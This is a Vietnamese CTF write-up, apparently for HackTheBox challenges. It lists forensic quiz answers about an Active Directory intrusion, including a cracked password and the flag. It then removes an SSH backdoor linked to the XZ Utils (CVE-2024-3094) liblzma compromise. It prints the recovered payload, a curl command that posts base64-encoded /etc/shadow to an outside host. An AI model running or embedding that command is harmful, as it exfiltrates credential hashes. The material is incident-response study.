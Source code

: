```
[7/11] One of the non-standard users is flagged as 'disabled', which is it? (for example: username)                                                                                              
> Radiation                                                                                                                                                                                      
[+] Correct!
                                                                                                                                                                                                 
[8/11] The attacker targeted one user writing some data inside a specific field. Which is the field name? (for example: field_name)                                                              
> wWWHomePage                                                                                                                                                                                    
[+] Correct!
                                                                                                                                                                                                 
[9/11] Which is the new value written in it? (for example: value123)                                                                                                                             
> http://rebcorp.htb/qPvAdQ.php                                                                                                                                                                  
[+] Correct!
                                                                                                                                                                                                 
[10/11] The attacker created a new user for persistence. Which is the username and the assigned group? Don't put spaces in the answer (for example: username,group)                              
> B4ck,Enclave                                                                                                                                                                                   
[+] Correct!
                                                                                                                                                                                                 
[11/11] The attacker obtained an hash for the user 'Hurricane' that has the UF_DONT_REQUIRE_PREAUTH flag set. Which is the correspondent plaintext for that hash?  (for example: plaintext_password)                                                                                                                                                                                              
> april18                                                                                                                                                                                        
[+] Correct!
                                                                                                                                                                                                 
[+] Here is the flag: HTB{1nf0rm4t10n_g4th3r3d_265df1a261c0453c2f5cf070a25a216c}                                                                                                                 
```

## _Mitigation_

Bài cho 1 instance Linux, connect vào và tìm cách loại bỏ backdoor
Đầu tiên mình dùng pspy để kiểm tra các process đang chạy trên instance. Liên tục là những sessions SSH được connect vào server, và thực hiện shell script, trong đó có 1 đoạn đáng chú ý:
`CMD: UID=0     PID=388    | sh -c cat /tmp/.c|base64 -d|sh`
Đoạn lệnh này đọc file `.c` trong `/tmp`, sau đó decode base64 ra và thực thi. Mình mở file ra để đọc thử thì thấy nội dung như sau:
```
curl -X POST -d "data=$(base64 /etc/shadow)&i=$(hostname -I | awk '{print $1}')" https://vault.htb/hashes/save
```
Dấu hiệu của việc có backdoor kết nối ssh tới server linux làm mình nhớ tới [XZ Utils backdoor](https://gist.github.com/thesamesam/223949d5a074ebc3dce9ee78baad9e27) hay [CVE-2024-3094](https://nvd.nist.gov/vuln/detail/CVE-2024-3094), một lỗ hổng được phát hiện gần đây trong thư viện `liblzma`, cụ thể trong 2 phiên bản 5.6.0 và 5.6.1. Và ở trên server Linux của bài, phiên bản 5.6.1-1 đã được cài đặt
```
root@5a349bb86666:~# dpkg -l | grep liblzma
ii  liblzma5:amd64              5.6.1-1               amd64        XZ-format compression library
```
Và mình đã tiến hành update thư viện `liblzma` lên phiên bản mới nhất hiện tại (hoặc cũng có thể downgrade về bản cũ hơn) [tại đây](https://snapshot.debian.org/package/xz-utils/5.6.1%2Breally5.4.5-1/)
```
root@5a349bb86666:~# dpkg -i liblzma5_5.6.1+really5.4.5-1_amd64.deb 
Selecting previously unselected package liblzma5:amd64.
(Reading database ... 7594 files and directories currently installed.)
```
